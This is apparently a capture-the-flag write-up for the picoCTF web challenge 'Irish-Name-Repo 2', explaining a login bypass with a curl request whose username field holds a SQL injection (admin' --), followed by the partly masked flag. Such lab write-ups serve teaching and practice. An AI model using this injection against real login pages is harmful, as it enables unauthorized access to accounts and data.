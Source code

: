 # picoCTF – Irish-Name-Repo 2 

* **Category:** Web
* **Points:** 300

## Challenge

>  Do you think you can log us in? Try to see if you can login!

## Solution

Similar to **Irish-Name-Repo 1** make a request to login page using crafterd SQL query.

Using *curl* make a request with username field containing text **admin** followed by **--**. The two hypens will comment out rest of the query which will get executed in the SQL server.
```
curl "<URL>/login.php" -d "username=admin' --&password=&debug=1"
```


```
picoCTF{m0R3_SQL_plz_xxxx}
```

